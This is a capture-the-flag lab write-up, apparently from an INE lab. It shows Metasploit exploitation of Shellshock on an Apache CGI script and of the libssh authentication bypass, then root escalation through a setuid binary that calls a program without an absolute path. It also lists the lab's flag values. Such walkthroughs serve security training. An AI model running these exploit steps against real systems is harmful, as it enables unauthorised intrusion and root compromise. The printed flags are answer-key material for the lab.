

## Tasks



## target1.ine.local — Enumeration

```
nmap -sCV target1.ine.local
```

```
80/tcp open  http  Apache httpd 2.4.6 ((Unix))
| http-methods:
|_  Potentially risky methods: TRACE
```

---
## Flag 1

> _Check the root ('/') directory for a file that might hold the key to the first flag._

The Apache server exposes a CGI endpoint, making it a candidate for Shellshock (CVE-2014-6271). 


The Metasploit module `apache_mod_cgi_bash_env_exec` is used to exploit it:

```
msf6 > use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf6 exploit(...) > set rhosts target1.ine.local
msf6 exploit(...) > set targeturi /browser.cgi
msf6 exploit(...) > set lhost eth1
msf6 exploit(...) > run

[*] Meterpreter session 1 opened (192.50.105.2:4444 -> 192.50.105.3:44470)
```

A shell is obtained as `daemon`. Searching for flag files:

```
find / -name "flag.txt" 2>/dev/null
/flag.txt
```

```
cat /flag.txt
FLAG1_91397402932b405fa93c0def42542adb
```

---
## Flag 2

> _In the server's root directory, there might be something hidden. Explore '/opt/apache/htdocs/' carefully._

The shell lands inside `/opt/apache/htdocs/`. Listing with hidden files:

```
ls -lha /opt/apache/htdocs/
```

```
-rw-r--r-- 1 root root   39 Jun  4 13:13 .flag.txt
-rwxr-xr-x 1 root root 6.3K Dec 28  2021 browser.cgi
-rw-r--r-- 1 root root  517 Dec 28  2021 index.html
```

The flag is in a hidden file:

```
cat .flag.txt
FLAG2_6c075e8d868e4dfa8475fb3ab82b92f0
```

---
## target2.ine.local — Enumeration

```
nmap -sCV target2.ine.local
```

```
22/tcp open  ssh  libssh 0.8.3 (protocol 2.0)
```

---
## Flag 3

> _Investigate the user's home directory and consider using 'libssh_auth_bypass' to uncover the flag._

libssh 0.8.3 is vulnerable to an authentication bypass (CVE-2018-10933). The Metasploit auxiliary module exploits it to spawn a shell without credentials. The first attempt fails without PTY; setting `SPAWN_PTY true` resolves it:

```
msf6 > use auxiliary/scanner/ssh/libssh_auth_bypass
msf6 auxiliary(...) > set rhosts target2.ine.local
msf6 auxiliary(...) > set spawn_pty true
msf6 auxiliary(...) > run

[*] Command shell session 3 opened (192.50.105.2:46103 -> 192.50.105.4:22)
```

```
msf6 auxiliary(...) > sessions -i 3

sh-5.2$ cd /home/user
sh-5.2$ cat flag.txt
FLAG3_277b5f450212499a88f6b443e732a6b3
```

---
## Flag 4

> _The most restricted areas often hold the most valuable secrets. Look into the '/root' directory._

Inspecting the home directory reveals a setuid binary `welcome` that calls `greetings` via `system()`:

```
sh-5.2$ ls -la
-rwx------ 1 root root 8296 greetings
-rwsr-xr-x 1 root root 8344 welcome

sh-5.2$ strings welcome
...
greetings
...
setuid@@GLIBC_2.2.5
```

`welcome` is a setuid root binary that calls `greetings` without an absolute path. Replacing `greetings` with a copy of `/bin/bash` hijacks the call:

```
sh-5.2$ rm greetings
sh-5.2$ cp /bin/bash greetings
sh-5.2$ ./welcome
[root@target2 ~]# cat /root/flag.txt
FLAG4_cbcd0596f69d4a98bde85151115ec45f
```

---
## Summary

|#|Target|Technique|Flag|
|---|---|---|---|
|1|target1|Shellshock (CVE-2014-6271) via CGI|`FLAG1_91397402932b405fa93c0def42542adb`|
|2|target1|Hidden dotfile in web root|`FLAG2_6c075e8d868e4dfa8475fb3ab82b92f0`|
|3|target2|libssh auth bypass (CVE-2018-10933)|`FLAG3_277b5f450212499a88f6b443e732a6b3`|
|4|target2|Setuid binary + PATH hijack|`FLAG4_cbcd0596f69d4a98bde85151115ec45f`|